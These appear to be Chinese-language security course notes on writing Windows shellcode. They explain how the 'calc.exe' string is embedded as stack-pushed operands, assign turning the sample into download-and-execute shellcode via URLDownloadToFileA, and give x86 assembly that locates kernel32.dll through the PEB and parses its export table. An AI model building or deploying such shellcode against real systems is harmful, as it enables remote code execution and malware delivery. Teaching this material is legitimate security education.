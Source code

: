 如果我们用C语言编写一个运行计算器的程序，其实很简单。我们只需要调用一下WinExec函数，或者CreateProcess函数。如果用汇编来写，也就是几条指令的事。几个参数 push 入栈以后，call函数地址就可以了。就能调用函数地址。

shellcode中还用到了字符串。至少函数地址的名称是需要的。还有调用WinExec的参数 calc.exe

- 如果我们在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。代码 机器指令在 text段中， 字符串在data段中。地址相差很远。而我们objdump，只取了代码段，没有取数据段，那要shellcode就太大了，而且中间可能会有很多的填充字符。而且数据地址很有可能是绝对地址。
- code一dump出来，放在了其他环境中执行，那么地址就变了。所以字符串，code也是找不到的。编一个程序，用到字符串，可以看看字符串的地址和代码的地址，差很远。那唯一的办法，用一种什么方式，把字符串硬编码在shellcode中。让字符串，变为代码的一部分，内嵌在机器指令中。
- 比如636c6163和6578652e是 calc.exe的big ending 反写，压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。





### 课后实验

1、详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。2、修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA

首先需要获取到KERNEL32.DLL的基地址

```asm
; Find kernel32.dll base address
 xor ebx, ebx
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
```

获取kernel32.dll导出表的地址

```asm
; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
 add ebx, eax            ; EBX = &NewEXEHeader
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
 add ebx, eax            ; EBX = &ExportTable
 ; Find the address of the Name Pointer Table within kernel32.dll
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
 add edi, eax            ; EDI = &NamePointerTable
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame

; Find the address of the Ordinal Table
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
 add ecx, eax            ; ECX = &OrdinalTable
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame

; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
 add edx, eax            ; EDX = &AddressTable
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame

; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
```
